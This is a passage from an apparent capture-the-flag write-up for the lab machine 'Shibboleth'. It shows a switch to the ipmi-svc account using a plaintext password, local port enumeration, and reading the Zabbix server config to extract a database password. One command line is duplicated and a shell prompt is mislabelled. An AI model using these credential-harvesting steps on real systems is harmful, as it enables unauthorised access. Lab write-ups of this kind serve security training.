 ```console
zabbix@shibboleth:/var/lib$ su ipmi-svc
su ipmi-svc
Password: ilovepumkinpie1
ipmi-svc@shibboleth:/var/lib$ id
uid=1000(ipmi-svc) gid=1000(ipmi-svc) groups=1000(ipmi-svc)
ipmi-svc@shibboleth:/var/lib$ uname -a
Linux shibboleth 5.4.0-89-generic #100-Ubuntu SMP Fri Sep 24 14:50:10 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

### ipmi-svc -> root

Enumeration: linpeas, pspy64, netstat

```console
zabbix@shibboleth:/var/lib$ netstat -tunlp
netstat -tunlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:10050           0.0.0.0:*               LISTEN      912/zabbix_agentd
tcp        0      0 0.0.0.0:10051           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::10050                :::*                    LISTEN      912/zabbix_agentd
tcp6       0      0 :::10051                :::*                    LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 127.0.0.1:161           0.0.0.0:*                           -
udp        0      0 0.0.0.0:623             0.0.0.0:*                           -
udp6       0      0 ::1:161                 :::*                                -
```

![image-20240204041021082](./Shibboleth.assets/image-20240204041021082.png)

```console
ipmi-svc@shibboleth:~$ mysql --version
mysql  Ver 15.1 Distrib 10.3.25-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2
```

Now, we know that the mysql service (**MariaDB 10.3.25**) is hosted by **root** and **Zabbix** uses a mysql db service. So, check Zabbix configuration files to get the credential to login mysql db.

```console
ipmi-svc@shibboleth:/var/lib$ cat /etc/zabbix/zabbix_server.cat /etc/zabbix/zabbix_server.conf | grep -v "#" | sort -u
AlertScriptsPath=/usr/lib/zabbix/alertscripts
DBName=zabbix
DBPassword=bloooarskybluh
DBUser=zabbix
ExternalScripts=/usr/lib/zabbix/externalscripts
Fping6Location=/usr/bin/fping6
FpingLocation=/usr/bin/fping
LogFileSize=0
LogFile=/var/log/zabbix/zabbix_server.log
LogSlowQueries=3000
PidFile=/run/zabbix/zabbix_server.pid
SNMPTrapperFile=/var/log/snmptrap/snmptrap.log
```